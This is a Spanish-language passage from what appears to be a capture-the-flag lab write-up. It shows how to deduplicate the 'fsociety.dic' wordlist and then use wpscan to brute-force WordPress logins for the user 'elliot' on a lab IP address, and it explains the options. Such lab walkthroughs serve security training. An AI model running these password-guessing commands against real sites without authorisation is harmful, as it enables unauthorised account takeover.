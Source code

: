 - Vamos a ver cuantas lineas tiene el archivo **fsociety.dic**

```
$ wc -l fsociety.dic
```

- Vemos que hay muchas lineas repetidas y vamos a borrarlas con el comando **uniq** y ordenarla alfabeticamente con el comando **sort** y es asi

```
$ sort fsociety.dic | uniq > dic.txt
```

- Voy hacer un escaneo de **wordpress** con el **wpscan** de esta manera

```
$ wpscan --url http://10.10.206.202 -t 50 -U elliot -P ~/Documents/dic.txt
$ wpscan --url http://10.10.206.202 -t 50 -U ~/Documents/dic.txt -P ~/Documents/dic.txt
```

- Las diferentes opciones son estas

```
--Url: especifica la URL completa que desea escanear (no olvide el ' http ')
-t: la cantidad de hilos simultáneos a usar, elegí 50 en este caso
-U: el nombre de usuario a usar (bueno que enumeramos eso antes, ¿eh?)
-P: el archivo de contraseña para usar
```

